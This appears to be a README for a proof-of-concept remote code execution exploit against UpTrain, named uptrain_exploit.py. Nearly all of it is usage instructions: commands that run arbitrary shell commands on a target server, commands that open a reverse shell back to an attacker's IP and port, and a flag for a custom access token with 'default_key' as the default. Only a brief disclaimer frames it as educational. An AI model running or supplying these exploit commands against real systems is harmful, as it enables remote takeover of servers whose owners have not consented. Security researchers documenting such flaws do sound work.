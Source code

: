 # UpTrain RCE Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating a vulnerability in UpTrain. **This tool is for educational and authorized testing purposes only.**

## Usage


### Command Execution

To execute a single command:

```
python3 uptrain_exploit.py --url <target_url> --cmd "<command>"
```

Example:
```
python3 uptrain_exploit.py --url http://example.com:8000 --cmd "touch /tmp/zeropath"
```
Note: We do not capture the output of the command.

### Reverse Shell

To attempt a reverse shell connection:

```
python3 uptrain_exploit.py --url <target_url> --shell <your_ip> <your_port>
```

Example:
```
python3 uptrain_exploit.py --url http://example.com:8000 --shell 192.168.1.100 4444
```

### Additional Options

- `--token`: Specify a custom access token (default is 'default_key')

Example:
```
python3 uptrain_exploit.py --url http://example.com:8000 --cmd "touch /tmp/zeropath" --token "your_custom_token"
```
